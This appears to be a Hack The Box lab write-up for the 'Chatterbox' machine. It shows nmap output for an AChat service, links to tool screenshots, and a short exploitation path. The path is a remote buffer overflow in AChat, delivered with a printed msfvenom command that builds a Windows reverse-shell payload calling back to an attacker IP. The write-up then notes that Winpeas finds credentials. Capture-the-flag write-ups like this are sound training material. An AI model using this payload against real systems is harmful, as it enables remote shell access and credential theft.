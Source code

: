 # Chatterbox

Deep tcp scan:

```bash
PORT     STATE SERVICE VERSION
9255/tcp open  http    AChat chat system httpd
|_http-comments-displayer: Couldn't find any comments.
|_http-fetch: Please enter the complete path of the directory to save data in.
| http-headers: 
|   Connection: close
|   Server: AChat
|   
|_  (Request type: GET)
|_http-mobileversion-checker: No mobile version detected.
|_http-referer-checker: Couldn't find any cross-domain scripts.
|_http-security-headers: 
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
|_http-traceroute: ERROR: Script execution failed (use -d to debug)
| http-useragent-tester: 
|   Status for browser useragent: 204
|   Allowed User Agents: 
|     Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
|     libwww
|     lwp-trivial
|     libcurl-agent/1.0
|     PHP/
|     Python-urllib/2.5
|     GT::WWW
|     Snoopy
|     MFC_Tear_Sample
|     HTTP::Lite
|     PHPCrawl
|     URI::Fetch
|     Zend_Http_Client
|     http client
|     PECL::HTTP
|     Wget/1.13.4 (linux-gnu)
|_    WWW-Mechanize/1.34
|_http-xssed: No previously reported XSS vuln.
|_unusual-port: http unexpected on port tcp/9255
9256/tcp open  achat   AChat chat system
```

Nikto:

![nikto](./chatterbox/nikto.png)

Dirb:

![dirb](./chatterbox/dirb.png)

Searchsploit:![achat](./chatterbox/achat.png)

Found a Remote Buffer Overflow:

```bash
#modify by generating own code, needs to be stageless payload
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.27 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```


Catch shell:

![shell](./chatterbox/shell.png)

Winpeas finds creds:

![creds](C:\Users\kevinkim\Documents\Repos\HTB\writeups\chatterbox\creds.png)
